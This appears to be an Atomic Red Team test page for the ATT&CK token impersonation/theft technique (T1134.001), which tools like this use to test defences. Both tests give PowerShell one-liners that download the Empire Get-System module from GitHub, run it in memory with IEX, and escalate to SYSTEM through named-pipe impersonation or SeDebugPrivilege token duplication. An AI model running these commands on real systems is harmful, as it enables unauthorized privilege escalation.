 # T1134.001 - Token Impersonation/Theft
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/001)
<blockquote>Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using <code>DuplicateToken(Ex)</code>. The token can then be used with <code>ImpersonateLoggedOnUser</code> to allow the calling thread to impersonate a logged on user's security context, or with <code>SetThreadToken</code> to assign the impersonated token to a thread.

An adversary may do this when they have a specific, existing process they want to assign the new token to. For example, this may be useful for when the target user has a non-network logon session on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Named pipe client impersonation](#atomic-test-1---named-pipe-client-impersonation)

- [Atomic Test #2 - `SeDebugPrivilege` token duplication](#atomic-test-2---sedebugprivilege-token-duplication)


<br/>

## Atomic Test #1 - Named pipe client impersonation
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script creates a named pipe, and a service that writes to that named pipe. When the service connects to the named pipe, the script impersonates its security context.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

Reference: https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
```






<br/>
<br/>

## Atomic Test #2 - `SeDebugPrivilege` token duplication
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script uses `SeDebugPrivilege` to obtain, duplicate and impersonate the token of a another process.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose
```






<br/>
